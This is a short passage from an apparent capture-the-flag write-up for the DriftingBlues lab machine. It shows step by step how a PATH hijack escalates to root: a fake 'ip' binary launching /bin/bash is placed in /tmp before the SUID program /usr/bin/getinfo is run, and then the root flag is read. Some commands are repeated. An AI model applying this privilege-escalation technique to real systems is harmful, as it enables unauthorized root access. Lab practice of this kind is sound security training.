


5.2 Create a root shell
1. Add "/tmp' to the PATH on the victim machine.
robertj@driftingblues:~$export PATH=/tmp/:$PATH
2. Create a binary called “ip”.
robertj@driftingblues:~$ cd /tmp
robertj@driftingblues:/tmp$ echo '/bin/bash' > ip
robertj@driftingblues:/tmp$ chmod +x ip
robertj@driftingblues:/tmp$ echo '/bin/bash' > ip
robertj@driftingblues:/tmp$ chmod +x ip
3. Run “/usr/bin/getinfo”.
robertj@driftingblues:/tmp$/usr/bin/getinfo
Output:

4. Catch the flag.
root@driftingblues:/tmp#cd /root
root@driftingblues:/root#ls -l
root@driftingblues:/root#cat root.txt
root@driftingblues:/root#ls -l
root@driftingblues:/root#cat root.txt

